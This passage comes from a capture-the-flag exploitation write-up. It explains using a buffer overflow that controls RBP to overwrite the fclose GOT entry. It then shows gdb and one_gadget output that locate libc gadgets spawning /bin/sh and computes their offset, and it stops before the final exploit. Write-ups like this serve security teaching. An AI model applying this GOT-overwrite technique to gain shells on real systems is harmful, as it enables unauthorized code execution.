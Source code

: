 We said that write uses rbp-0x150 as second parameter. We control RBP from our buffer overflow, we just have to put the address of fclose on the .got + 0x150.

I got the offset of flcose on the .got using objdump:
```
00000000004005e0 <fclose@plt>:
  4005e0: ff 25 3a 0c 20 00  jmp QWORD PTR [rip+0x200c3a]   #   601220 <fclose@GLIBC_2.2.5>
```

We’ll use the address: 0x601220+0x150.

That’s our first stage done.

### Calculate offset difference between fclose and one_gadget.

Getting fclose offset in libc.so.6

Easy enough:
```
$ gdb libc.so.6
Reading symbols from libc.so.6...(no debugging symbols found)...done.
(gdb) p fclose
$1 = {<text variable, no debug info>} 0x695e0 <fclose>
```

Getting one_gadget offset

One_gadget is the one gadget you can find in the libc that performs the simple and wonderful task of ```execve("/bin/sh", rsp+0x30, environ)```

There is a useful tool on github that allows to search for it easily.

Using it is fairly simple:

```
$ one_gadget libc.so.6 
0x41320	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x41374	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xd6e77	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

There are three of them, it doesn’t really matter which one to choose, let’s go with the first one.

### Compute offset difference:
Simple substraction: ```0x695e0-0x41320 = 0x282c0```

### Survive the leak and execute one_gadget


[//]: <> (文章所涉及到的技术点、WriteUp的链接)
[//]: <> (题目)
[//]: <> (WriteUp内容)